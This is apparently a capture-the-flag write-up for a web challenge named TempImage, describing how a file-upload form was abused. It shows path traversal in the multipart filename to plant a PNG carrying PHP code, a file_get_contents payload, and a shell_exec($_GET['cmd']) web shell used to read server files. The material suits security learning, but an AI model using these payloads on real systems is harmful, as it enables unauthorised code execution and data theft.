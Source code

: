 # TempImage

## 1. Flag 2

Tried uploading files 

download.png -->> 820c946b78eb0d3b0dfe2067189de065_download.php.png

download2.png -->> 83ba84583557e3b03ad3bdc749370e73_download2.png

Files were renamed to [md5hash]_[realfilename].[ext]

Tried to download 159df48875627e2f7f66dae584c5e3a5_flag.txt and some other didn't work

Watched a H101 file inclusion video, got info about file multipart/form-data esp boundary param.

Connected Burp Suite and tried changing the filename param to `/etc/passwd` got following error.

```php+HTML
Warning: move_uploaded_file(files/c5068b7c2b1707f8939b283a2758a691_/etc/passwd): failed to open stream: No such file or directory in /app/doUpload.php on line 7

Warning: move_uploaded_file(): Unable to move '/tmp/phpSayLpg' to 'files/c5068b7c2b1707f8939b283a2758a691_/etc/passwd' in /app/doUpload.php on line 7
ERROR: Upload failed
```

Got all the info required. The file content when uploaded is present at `/tmp/phpSayLpg`  and is being moved to files/[md5sum of filename]_file_name.<ext>

Great!

Modified  `download.png` (downloded from google) with embedded php code included just `<?php echo "hello world" ?> ` using exiftool to check (BTW using exiftool was causing problem 'unexpected end of file' error, attached payload manually at the end of file)

![Screen Shot 2020-05-17 at 12.55.13 AM](/Users/rajsharm/Desktop/Screen Shot 2020-05-17 at 12.55.13 AM.jpg)

Uploaded the png, intercepting in Burp and changing the file name to `/../../download.php` in the filename param as well as in each boundary.

This way file gets moved to the directory where index.php is present because the call to move_uploaded_file() will be called with `files/0742d73fcdc2f4f928d8995aaac3c024_/../../download.php`

Now we have RCE!

Embedded `<?php echo file_get_contents("index.php"); ?>` in png, server returned the contents of index.php, viewed the source code **got the FLAG**

## 2. Flag 1

Now that we have RCE, embedded below

```php
$output = shell_exec($_GET['cmd']);
echo "<pre>$output</pre>";
```

in the png and uploaded.

Now we have shell access.

Did cat on all the files present. Using `http://35.227.24.107/60923ee32a/download.php?cmd=cat doUpload.php`

**Found the Flag in doUpload.php**

